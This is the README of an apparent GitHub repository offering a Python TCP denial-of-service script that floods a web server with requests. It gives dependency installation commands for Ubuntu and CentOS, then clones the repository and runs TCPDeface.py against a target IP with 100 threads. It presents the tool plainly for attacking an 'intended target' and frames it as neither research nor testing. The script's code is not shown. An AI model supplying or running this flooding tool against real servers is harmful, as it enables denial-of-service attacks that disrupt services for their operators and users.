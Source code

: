 # Python_TCP_DDoS_Script
Python-Based DDoS Script to Flood a Web Server with Requests

# Installing Dependencies Ubuntu
```
sudo apt-get update && sudo apt-get -y upgrade
sudo apt-get install -y python3-pip
sudo apt-get install build-essential libssl-dev libffi-dev python-dev
python3 -V
```

# Installing Dependencies CentOS7
```
sudo yum install -y https://centos7.iuscommunity.org/ius-release.rpm
sudo yum update
sudo yum install -y python36u python36u-libs python36u-devel python36u-pip
sudo yum groupinstall -y "Development Tools"
python3.6 -V
```

# Installing The Script
```
cd /
mkdir DDoS
cd DDoS
git clone https://github.com/RoqueNight/Python_TCP_DDoS_Script.git
cd Python_TCP_DDoS_Script
chmod +x TCPDeface.py
python3 TCPDeface.py -s <IP> -t 100
```

Replacing <IP> with the Intended Target IP Address
